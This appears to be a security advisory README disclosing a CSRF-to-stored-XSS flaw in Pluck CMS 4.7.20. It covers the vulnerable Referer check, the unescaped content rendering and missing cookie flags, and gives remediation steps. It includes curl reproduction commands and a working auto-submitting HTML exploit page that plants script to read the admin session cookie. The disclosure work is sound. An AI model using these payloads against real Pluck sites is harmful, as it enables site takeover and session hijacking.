

<div align="center">


[]()
[](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:H/A:L)
[](http://cwe.mitre.org/data/definitions/352.html)
[](http://cwe.mitre.org/data/definitions/79.html)
[]()

</div>

## Summary

Pluck CMS build **4.7.20** fails to correctly enforce cross-site request forgery protection on its administration panel. Pluck has no concept of multiple user accounts or roles — a single shared password protects the entire `admin.php` control panel, and every session that has passed `login.php` is fully privileged. The application's only anti-CSRF control, `requestedByTheSameDomain()`, checks the `Referer` header, but treats a request as trusted whenever that header is **absent** rather than rejecting it. No CSRF token exists anywhere in the codebase. As a result, an attacker can forge any administrative action — page creation, editing, deletion, settings changes, theme changes, logout — using nothing more than a web page the victim administrator's browser loads while already logged in, with no click, confirmation, or further interaction required beyond the page load itself.

Because saved page content is persisted without HTML encoding and echoed verbatim to every site visitor, this CSRF weakness is directly chainable into **persistent stored XSS** on the public-facing site: the forged request doesn't just change hidden admin state, it plants attacker-controlled JavaScript that executes in the browser of every subsequent visitor, including the site owner.

## At a Glance

| Field | Value |
|---|---|
| **CVE ID** | Pending assignment (requested via MITRE, see Timeline) |
| **Affected Product** | Pluck CMS |
| **Affected Version** | 4.7.20 confirmed; 4.7.10–4.7.20 likely affected (vulnerable function's docblock states `@since 4.7.10`) |
| **Vulnerability Class** | Cross-Site Request Forgery -> Stored Cross-Site Scripting |
| **CWE** | [CWE-352 - Cross-Site Request Forgery](http://cwe.mitre.org/data/definitions/352.html), chained to [CWE-79 - Improper Neutralization of Input During Web Page Generation](http://cwe.mitre.org/data/definitions/79.html) |
| **CVSS v3.1** | 8.0 HIGH - `AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:H/A:L` |
| **Discovered By** | Orion Hridoy |
| **Status** | Reported to MITRE, CVE ID requested. Not yet independently confirmed by the vendor. |
| **Vendor** | [Pluck](https://github.com/pluck-cms/pluck) |

### CVSS v3.1 vector breakdown

| Metric | Value | Rationale |
|---|---|---|
| Attack Vector | Network (N) | Delivered as a normal web page over HTTP/HTTPS |
| Attack Complexity | Low (L) | No race conditions, no guessing, no special conditions beyond getting the page loaded |
| Privileges Required | None (N) | The attacker holds no Pluck credentials or session of their own |
| User Interaction | Required (R) | A logged-in admin must load the attacker's page |
| Scope | Changed (C) | The forged admin action injects script that executes in the security context of every site *visitor*, beyond the vulnerable component itself |
| Confidentiality | Low (L) | Session cookie and page content are exposed via the XSS chain |
| Integrity | High (H) | Full, unrestricted write access to site content, settings, and theme |
| Availability | Low (L) | Pages/images/files can be deleted, degrading the site |

## Technical Overview

### Authentication and session model

Pluck has no user table. `login.php` compares a submitted password against a single SHA-512 hash stored in `data/settings/pass.php`, and on success sets `$_SESSION[$token] = 'pluck_loggedin'`, where `$token` is a fixed value read from `data/settings/token.php`. From that point on, `admin.php` treats the session as fully privileged for every action it dispatches.

### The vulnerable check

Every administrative action is dispatched through `admin.php`, gated by a single function, `requestedByTheSameDomain()`, defined in `data/inc/functions.admin.php`:

```php
/**
 * Checking if the request originates from the originating server
 * @since 4.7.10
 */
function requestedByTheSameDomain() {
    if (isset($_SERVER['HTTP_HOST'])) {
        $myDomain = $_SERVER['HTTP_HOST'];
    } elseif (isset($_SERVER['SCRIPT_URI'])) {
        $myDomain = $_SERVER['SCRIPT_URI'];
    } else {
        $myDomain = NULL;
    }
    if (isset($_SERVER['HTTP_REFERER'])) {
        $requestsSource = $_SERVER['HTTP_REFERER'];
    } else {
        $requestsSource = NULL;
    }
    $referelDomain = parse_url($requestsSource, PHP_URL_HOST);

    if ($myDomain != NULL && $requestsSource != NULL
        && (strcmp(trim($myDomain), trim($referelDomain)) === 0)) {
        return true;
    } elseif ($myDomain == NULL || $requestsSource == NULL) {
        // Referer absent (or HTTP_HOST unavailable) -> treated as trusted anyway
        show_error("Be carefull with clicking links, they might compromise your website. Your installation is not secured with measures to protect it.", 1);
        return true;
    } else {
        return false;
    }
}
```

```php
// admin.php
$isCSRF = requestedByTheSameDomain();
if (isset($_GET['action']) && $isCSRF) {
    switch ($_GET['action']) {
        case 'editpage':        include ('data/inc/editpage.php'); break;
        case 'deletepage':      include ('data/inc/deletepage.php'); break;
        case 'deleteimage':     include ('data/inc/deleteimage.php'); break;
        case 'deletefile':      include ('data/inc/deletefile.php'); break;
        case 'settings':        include ('data/inc/settings.php'); break;
        case 'theme':           include ('data/inc/theme.php'); break;
        case 'language':        include ('data/inc/language.php'); break;
        case 'logout':          unset($_SESSION[$token]); break;
        case 'trashcan_empty':  include ('data/inc/trashcan_empty.php'); break;
        // ... module install/uninstall, theme install/uninstall, pageup/pagedown, etc.
    }
}
```

`$isCSRF` is the **sole** authorization gate applied to every branch above. There is no per-session or per-request token anywhere in the codebase, no `Origin` header validation, and several destructive actions (`deletepage`, `deleteimage`, `deletefile`, `logout`, `pageup`, `pagedown`) are reachable via a plain `GET` request, making them exploitable as classic one-click/`` CSRF with no form or JavaScript required at all.

### The XSS chain

Page content submitted through `editpage.php` is saved via `save_page()`, which calls:

```php
// data/inc/functions.all.php
function sanitizePageContent($var, $html = true) {
    $var = str_replace('\\', '\\\\', $var);
    $var = str_replace('\'', '\\\'', $var);
    if ($html == true)
        $var = htmlspecialchars($var, ENT_COMPAT, 'UTF-8', false);
    return $var;
}
```

`save_page()` calls this with `$html = false`, so HTML/JS in submitted content is **never encoded** before being written to the page's PHP data file. On render, `theme_content()` outputs it as-is:

```php
// data/inc/functions.site.php
elseif (defined('CURRENT_PAGE_FILENAME')) {
    include (PAGE_DIR.'/'.CURRENT_PAGE_FILENAME);
    ...
    else
        echo $content;   // no escaping — raw stored HTML/JS reaches every visitor
}
```

The forged CSRF request therefore does not just mutate hidden admin state — it plants content that executes in the browser of anyone who later visits the affected page, including the site's own administrator on their next visit.

### Compounding factor: session cookie hardening

Pluck's `PHPSESSID` cookie is issued with no `HttpOnly`, `Secure`, or `SameSite` attributes (`Set-Cookie: PHPSESSID=...; path=/`). This does not cause the CSRF itself, but it directly amplifies the impact of the resulting stored XSS: injected JavaScript can read `document.cookie` and obtain the live session identifier, turning a content-injection bug into a full session-hijacking primitive.

## Impact

An attacker who gets a logged-in Pluck administrator to load a single attacker-controlled page can, with no further interaction:

- Create, modify, or delete site pages, images, or files
- Change site settings, theme, or language
- Log the administrator out
- Inject persistent JavaScript into public pages, which then executes for **every visitor**, including future administrator sessions
- Read `document.cookie` from within that injected script and obtain the live session cookie (unprotected by `HttpOnly`), enabling full session hijacking and complete takeover of the site's only privileged account

Because Pluck has a single flat admin account rather than role separation, there is no "low privilege" outcome here — any successful forgery is immediately full-site compromise.

## Proof of Concept

### Reproduction 1 — HTTP-level, isolates the exact defect

```bash
# Authenticate normally, then forge a request with no Referer header
curl -s -b cookies.txt -H "Referer:" \
     --data "save=Save&title=PoC&content=<script>alert(document.domain)</script>&sub_page=&description=&keywords=" \
     "http://TARGET/admin.php?action=editpage"
# => HTTP 200; page is created; the injected <script> is stored and later rendered unescaped

# Control: identical request with a mismatched, present Referer
curl -s -b cookies.txt -H "Referer: http://attacker.example/" \
     --data "save=Save&title=PoC2&content=test&sub_page=&description=&keywords=" \
     "http://TARGET/admin.php?action=editpage"
# => rejected; confirms the check is real and only fails open when Referer is absent entirely
```

### Reproduction 2 — browser-level, full delivery chain

[`poc.html`](./poc.html) (included in this repository) is the exact page used for verification. It sets `Referrer-Policy: no-referrer`, builds a hidden form targeting `admin.php?action=editpage`, and auto-submits on load:

```html
<!DOCTYPE html>
<html>
<head><meta charset="utf-8"><meta name="referrer" content="no-referrer"><title>Loading your photos...</title></head>
<body>
<p>Please wait, your content is loading...</p>
<script>
function hiddenInput(name, value) {
  var i = document.createElement('input');
  i.type = 'hidden';
  i.name = name;
  i.value = value;
  return i;
}

var f = document.createElement('form');
f.method = 'POST';
f.action = 'http://localhost/pluck-4.7.20/admin.php?action=editpage';
f.setAttribute('referrerpolicy', 'no-referrer');

// Payload is stored RAW (unescaped) and echoed verbatim to every site visitor.
var payload =
  '<div id="poc-banner" style="font-size:32px;color:#fff;background:#c00;' +
  'padding:24px;border:6px solid #000;font-family:monospace;">' +
  'CSRF &rarr; STORED XSS PoC EXECUTED (Pluck 4.7.20)<br>' +
  'document.cookie (readable because PHPSESSID has no HttpOnly flag): ' +
  '<span id="poc-cookie"></span></div>' +
  '<script>document.getElementById("poc-cookie").textContent = document.cookie;' +
  'console.log("PLUCK_CVE_POC_EXEC:" + document.cookie);<' + '/script>';

f.appendChild(hiddenInput('title', 'CVE-PoC-Pluck-CSRF'));
f.appendChild(hiddenInput('content', payload));
f.appendChild(hiddenInput('sub_page', ''));
f.appendChild(hiddenInput('description', ''));
f.appendChild(hiddenInput('keywords', ''));
f.appendChild(hiddenInput('save', 'Save'));
document.body.appendChild(f);
f.submit();
</script>
</body>
</html>
```

**Observed behavior, reproduced against a local, non-production Pluck 4.7.20 instance:**

1. Authenticated to Pluck admin normally (`login.php`). Confirmed a clean starting state.
2. With that session still active, navigated to the page above (hosted separately from Pluck itself).
3. The hidden form auto-submitted cross-site with the `Referer` header suppressed. The browser was redirected **into Pluck's own admin editor** at `admin.php?action=editpage&page=cve-poc-pluck-csrf` — confirming the forged request was accepted and a new page was created without the admin ever using Pluck's UI to do so.
4. Navigating to the resulting **public** page (`?file=cve-poc-pluck-csrf`, requires no authentication) executed the injected script live: a banner rendered on the page, and the script printed the actual `PHPSESSID` value onto the page by reading `document.cookie`.
5. Browser console confirmed execution: `PLUCK_CVE_POC_EXEC:...PHPSESSID=<live session value>`.



*Recording: authenticated dashboard → attacker page loads and auto-submits → Pluck redirects into its own admin editor with the injected banner already present → the public page executes the script and discloses the live session cookie.*

## Remediation

- Implement a per-session synchronizer CSRF token, embedded in every admin form and verified with `hash_equals()` before any state-changing action; reject the request when the token is missing or invalid.
- Change `requestedByTheSameDomain()` to fail **closed**, or remove it entirely in favor of the token check — never treat an absent `Referer`/`Origin` as implicit trust.
- Move all state-changing actions to POST only; several are currently reachable via GET.
- Set `HttpOnly`, `Secure`, and `SameSite=Strict` (or `Lax`) on the session cookie as defense-in-depth.
- HTML-encode stored page content on output, or explicitly sanitize/allowlist HTML if rich content is intentionally supported.
- No vendor patch was available at the time of writing; users should track the upstream repository for a fix.

## Timeline

| Date | Event |
|---|---|
| 2026-07-17 | Vulnerability discovered and verified through authorized local security testing |
| 2026-07-17 | CVE ID requested via MITRE's CVE request form |
| TBD | Vendor notified |
| TBD | CVE ID assigned |
| TBD | Vendor fix released |

## Credits

Discovered and disclosed by **Orion Hridoy** - [github.com/orionhridoy](https://github.com/orionhridoy)

## References

- CVE ID: pending assignment — this document is submitted as the public reference for that request
- [Pluck](https://github.com/pluck-cms/pluck)
- [CWE-352 - Cross-Site Request Forgery](http://cwe.mitre.org/data/definitions/352.html)
- [CWE-79 - Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](http://cwe.mitre.org/data/definitions/79.html)

## Disclaimer

This repository documents a vulnerability identified through authorized security testing of a local, non-production instance for research and defensive purposes only. Do not test this or any vulnerability against systems you do not own or do not have explicit written authorization to assess.

---

<div align="center">
<sub>Part of the <a href="https://github.com/orionhridoy">@orionhridoy</a> vulnerability research collection</sub>
</div>
